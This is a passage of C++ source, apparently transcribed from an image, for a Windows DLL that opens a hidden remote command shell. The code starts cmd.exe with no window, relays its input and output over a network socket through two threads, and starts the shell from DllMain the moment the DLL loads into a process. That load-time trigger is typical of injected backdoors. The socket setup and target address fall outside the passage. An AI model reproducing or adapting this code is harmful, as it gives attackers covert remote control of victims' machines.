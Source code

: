 ```cpp
    si.hStdOutput = hChildStdoutWr;
    si.hStdError = hChildStdoutWr;

    // Launch hidden cmd.exe
    char cmd[] = "cmd.exe";
    ZeroMemory(&pi, sizeof(pi));
    if (!CreateProcessA(NULL, cmd, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
        CloseHandle(hChildStdinRd);
        CloseHandle(hChildStdinWr);
        CloseHandle(hChildStdoutRd);
        CloseHandle(hChildStdoutWr);
        closesocket(sock);
        WSACleanup();
        return 1;
    }

    // Close pipe ends that the child process uses
    CloseHandle(hChildStdinRd);   // Child uses this for stdin
    CloseHandle(hChildStdoutWr);  // Child uses this for stdout

    // Prepare parameters for threads
    ThreadParams inputParams = { sock, NULL, hChildStdinWr };
    ThreadParams outputParams = { sock, hChildStdoutRd, NULL };

    // Create threads for I/O forwarding
    HANDLE hThreads[2];
    hThreads[0] = CreateThread(NULL, 0, SocketToInputThread, &inputParams, 0, NULL);
    hThreads[1] = CreateThread(NULL, 0, OutputToSocketThread, &outputParams, 0, NULL);

    // Wait for the process to exit
    WaitForSingleObject(pi.hProcess, INFINITE);

    // Cleanup
    TerminateProcess(pi.hProcess, 0);

    // Close remaining handles
    CloseHandle(hChildStdinWr);
    CloseHandle(hChildStdoutRd);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    // Close socket and cleanup Winsock
    closesocket(sock);
    WSACleanup();

    // Wait for I/O threads to finish
    WaitForMultipleObjects(2, hThreads, TRUE, 2000);
    CloseHandle(hThreads[0]);
    CloseHandle(hThreads[1]);

    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        DisableThreadLibraryCalls(hModule);
        CreateThread(NULL, 0, ShellThread, NULL, 0, NULL);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
```